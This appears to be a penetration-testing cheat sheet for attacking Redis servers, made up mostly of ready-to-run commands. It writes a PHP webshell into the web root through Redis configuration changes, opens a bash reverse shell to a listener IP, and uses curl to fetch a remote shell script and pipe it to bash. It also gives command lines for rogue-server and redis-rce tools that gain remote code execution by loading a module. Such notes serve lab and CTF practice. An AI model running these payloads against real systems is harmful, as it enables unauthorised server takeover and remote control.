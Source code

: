# Redis

```
redis-cli -h $IP
```

### Config File Locations

```
/etc/apache2/sites-available/000-default.conf
/etc/systemd/system/redis.service
/etc/redis/redis.conf
```

```
config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
save
```

**Another payload**

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.5/80 0>&1
```

```bash
set test "<?php system('curl http://192.168.45.5:9001/shell.sh | bash'); ?>"
```

### Redis Rogue Server

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

```bash
python redis-rogue-server.py --rhost 192.168.177.176 --lhost=192.168.49.177 --lport=53
```

{% embed url="https://github.com/Ridter/redis-rce" %}

Compile the exp.so file from [here](https://github.com/n0b0dyCN/redis-rogue-server)

```bash
python redis-rce.py -r 192.168.177.176 -L 192.168.49.177 -P 443 -f exp.so
```

### Resources

{% embed url="https://www.digitalocean.com/community/tutorials/how-to-install-and-configure-redis-on-ubuntu-16-04" %}
